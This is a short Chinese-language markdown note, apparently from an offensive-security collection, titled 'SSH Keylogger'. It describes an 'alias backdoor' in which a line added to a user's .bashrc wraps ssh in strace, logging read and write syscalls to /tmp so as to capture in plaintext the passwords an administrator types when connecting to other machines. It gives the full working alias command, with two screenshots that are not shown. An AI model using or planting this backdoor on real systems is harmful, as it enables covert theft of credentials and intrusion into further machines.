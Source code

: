 ```yaml
---
title: SSH Keylogger
id: zhfly3488
---
```


# SSH Keylogger

利用strace系统调试工具获取ssh的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。

在当前用户的.bashrc里新建一条alias、这样可以抓取他登陆其他机器的ssh密码。算是alias后门。后面会在讲一下alias后门。

```
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh' 
```

![image](../img/6524da1cacb573bd014f46fd3e65b06e.png)

![image](../img/634f2f56762d106f5fcf9343cf97ce44.png)